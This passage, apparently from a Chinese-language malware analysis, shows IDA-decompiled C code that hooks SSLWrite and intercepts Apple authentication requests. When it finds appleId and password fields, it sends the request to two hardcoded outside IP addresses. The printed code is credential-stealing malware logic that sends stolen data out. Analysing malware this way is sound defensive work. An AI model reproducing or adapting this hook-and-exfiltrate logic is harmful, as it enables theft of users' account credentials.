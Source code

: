 使用 IDA 的插件 F5 一下，可以得到如下的代码：

```
｀int __fastcall replace_SSLWrite(int a1, char *a2, int a3, int a4)
 {
 ......

 if ( !findhead )
  {
    v19 = strstr(v22, "/WebObjects/MZFinance.woa/wa/authenticate HTTP/1.1");
    if ( v19 )
    {
      findhead = 1;
      strcpy(content, v22);
    }
  }
  if ( findhead == 1 )
  {
    v18 = strstr(v22, "<key>appleId</key>");
    v17 = strstr(v22, "<key>password</key>");
    if ( v18 )
    {
      if ( v17 )
      {
        strcat(content, v22);
        v16 = strstr(content, "</plist>");
        if ( v16 && v16 - content <= 2040 )
          v16[8] = 0;
        v14 = 0;
        v15 = socket(2, 1, 0);
        if ( v15 < 0 )
        {
          v24 = pSSLWrite(v23, v22, v21, v20);
          goto LABEL_20;
        }
        v13.sa_family = 2;
        *(_WORD *)&v13.sa_data[0] = 0xC61Eu;
        *(_DWORD *)&v13.sa_data[2] = inet_addr("23.88.10.4");
        if ( connect(v15, &v13, 0x10u) < 0 )
        {
          close(v15);
          v24 = pSSLWrite(v23, v22, v21, v20);
          goto LABEL_20;
        }
        v5 = v15;
        v6 = strlen(content);
        v14 = write(v5, content, v6);
        v11 = 0;
        close(v15);
        v12 = socket(2, 1, 0);
        if ( v12 < 0 )
        {
          v24 = pSSLWrite(v23, v22, v21, v20);
          goto LABEL_20;
        }
        v10.sa_family = 2;
        *(_WORD *)&v10.sa_data[0] = 0xC61Eu;
        *(_DWORD *)&v10.sa_data[2] = inet_addr("23.228.204.55");
        if ( connect(v12, &v10, 0x10u) < 0 )
        {
          close(v12);
          v24 = pSSLWrite(v23, v22, v21, v20);
          goto LABEL_20;
        }
```